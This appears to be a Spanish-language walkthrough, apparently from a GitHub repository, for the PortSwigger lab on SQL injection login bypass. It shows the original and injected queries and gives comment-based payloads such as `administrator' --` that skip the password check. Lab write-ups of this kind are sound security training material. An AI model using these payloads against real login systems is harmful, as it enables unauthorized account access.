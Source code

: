 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

### Query original:

````sql
select id,username,subscription from users where username = 'administrator' and password = 'p@ssw0rd123-1';
````

### Query inyectada:

````sql
select id,username,subscription from users where username = 'administrator' -- and password = 'p@ssw0rd123-1';
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4cd5611e-0aac-435f-a45d-4a254b669186)


## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

2. Ingresar el usuario `administrator` con el payload `administrator' --` o `administrator' -- -` o `administrator' #` _(O cualquiera de sus versiones)_

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/cb2feaac-5eef-4207-9786-15aa382ef97d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/f19586fc-90f0-46e3-8172-66a0c69ccdf9)





